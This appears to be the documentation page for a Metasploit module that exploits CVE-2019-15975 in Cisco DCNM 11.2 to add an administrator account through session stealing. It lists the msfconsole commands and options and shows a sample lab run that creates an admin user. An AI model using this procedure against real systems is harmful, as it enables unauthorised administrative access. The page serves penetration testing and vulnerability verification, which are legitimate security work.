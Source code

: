 ## Description

This module exploits CVE-2019-15975 which affects Cisco DCNM versions 11.2 up to but not including 11.3(1). This exploit
adds an admin account with any credentials you want. Then you can login to the web interface of Cisco DCNM with those
credentials. The only necessary condition is the more or less recent connection (probably something like within the last
hours) of an admin as this exploit uses a kind of session stealing.

## Installation

A vulnerable version of Cisco DCNM can be downloaded from
[here](https://software.cisco.com/download/home/281722751/type/282088134/release/11.2(1)). Then follow all the steps in
the installation interface. You might have to set up a database if the auto installation of PostgreSQL fails for
instance (that was my case and I finally had to manually install PostgreSQL).

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use auxiliary/admin/networking/cisco_dcnm_auth_bypass`
3. `set RHOST <target_host>`
4. `check` to check if the targeted Cisco DCNM is vulnerable
5. `set USERNAME <username>` and `set PASSWORD <password>` to specify the credentials you want to add
6. `run` the module to exploit the CVE and add an admin account with those credentials

## Options

**RHOSTS**

Set the target host.

**USERNAME**

Set the USERNAME of the admin account you want to add.

**PASSWORD**

Set the PASSWORD of the admin account you want to add.

**RETRIES**

You can change the maximum number of attempts to add an admin account by using `set RETRIES <max_retries>`.

## Scenarios

### DCNM 11.2(1) - Linux OVA Appliance

```
msf > use auxiliary/admin/networking/cisco_dcnm_auth_bypass
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) > set RHOST 192.168.159.33
RHOST => 192.168.159.33
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) > check
[+] 192.168.159.33:443 - The target is vulnerable.
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) > run
[*] Running module against 192.168.159.33

[+] Admin account with username: 'frederick' and password: '1OwNqJnO' added!
[*] Auxiliary module execution completed
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) >
```
